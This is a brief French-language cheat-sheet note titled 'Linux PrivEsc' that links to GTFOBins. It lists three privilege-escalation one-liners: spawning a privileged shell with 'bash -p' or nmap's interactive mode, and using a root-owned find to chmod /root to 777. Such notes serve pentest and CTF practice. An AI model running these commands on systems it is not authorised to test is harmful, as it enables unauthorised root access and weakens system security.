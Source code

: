 # Linux PrivEsc
<br>

Url : https://gtfobins.github.io/
```
Déjà vu :

- /usr/bin/env bash -p

- nmap --interactive
  nmap> !sh (Cf. https://gtfobins.github.io/gtfobins/nmap/)

- find . -exec chmod 777 /root \;
  (si find a des droits root (Cf. ilnux.sh))
```
